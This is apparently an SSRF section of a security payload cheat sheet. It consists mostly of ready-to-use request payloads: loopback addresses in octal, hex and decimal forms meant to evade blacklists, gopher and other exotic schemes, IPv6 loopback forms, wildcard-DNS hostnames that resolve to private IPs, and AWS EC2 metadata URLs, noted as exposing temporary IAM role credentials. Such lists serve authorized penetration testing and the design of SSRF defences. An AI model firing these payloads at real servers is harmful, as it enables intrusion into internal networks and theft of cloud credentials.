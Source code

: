 ## SSRF

**How to SSRF by Jobert Abma

https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF

```
http://0177.1/
```

```
http://0x7f.1/
```

```
https://520968996
```

_Note:_ The latter can be calculated using http://www.subnetmask.info/


(**IP-Obfuscator**)[https://github.com/C-REMO/Obscure-IP-Obfuscator]
Often come handy when backend application is using some sort of black-listing approach to block private address




**Exotic Handlers**

```
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```
http://[::1]
```

```
http://[::]
```

**Wildcard DNS**

```
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```
_Link:_ http://xip.io

```
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ http://nip.io

**AWS EC2 Metadata**

```
http://169.254.169.254/latest/meta-data/  
```

```
http://169.254.169.254/latest/meta-data/local-hostname
```

```
http://169.254.169.254/latest/meta-data/public-hostname
```

> If there is an IAM role associated with the instance, role-name is the name of the role, and role-name contains the temporary security credentials associated with the role [...]

_Link:_ http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (includes a comprehensive Instance Metadata Categories table)
